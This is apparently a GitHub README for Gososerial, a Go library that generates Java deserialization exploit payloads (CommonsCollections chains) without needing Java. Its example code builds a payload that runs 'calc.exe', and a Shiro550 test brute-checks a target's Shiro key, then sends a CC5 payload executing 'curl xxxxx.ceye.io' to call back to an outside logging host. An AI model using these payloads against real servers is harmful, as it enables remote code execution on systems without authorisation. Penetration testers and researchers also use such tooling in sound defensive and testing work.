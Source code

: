 # Gososerial

## 介绍

- ysoserial是java反序列化安全方面著名的工具
  
- 无需java环境，无需下载ysoserial.jar文件
  
- 输入命令直接获得payload，方便编写安全工具

- 目前已支持CC1--CC7，考虑后续加入常用的K1-K4和TomcatEcho

## Introduce

- Ysoserial is a well-known tool for Java deserialization security

- No Java environment and no need to download ysoserial.jar file

- Enter the command to directly obtain the payload, which is convenient for writing security tools

## Example

CommonsCollections1 Payload

![](https://github.com/EmYiQing/Gososerial/blob/master/img/1.png)


List of Supported

![](https://github.com/EmYiQing/Gososerial/blob/master/img/2.png)

## Quick Start

```shell
go get github.com/EmYiQing/Gososerial
```

```go
package main

import gososerial "github.com/EmYiQing/Gososerial"

func main()  {
	payload := gososerial.GetCC1("calc.exe")
	......
	sendPayload(payload)
	......
}
```

Shiro550 Scan Code

```go
......
func TestFindShiro(t *testing.T) {
	target := "http://192.168.222.132:8080/"
	key := shiro.CheckShiroKey(target)
	if key != "" {
		log.Info("find key: %s", key)
	}
	payload := gososerial.GetCC5("curl xxxxx.ceye.io")
	shiro.SendPayload(key, payload, target)
}
......
```

## About

参考了xray中p师傅的代码

**ysoserial**: https://github.com/frohoff/ysoserial

**xray**: https://github.com/chaitin/xray

**phith0n**: https://github.com/phith0n
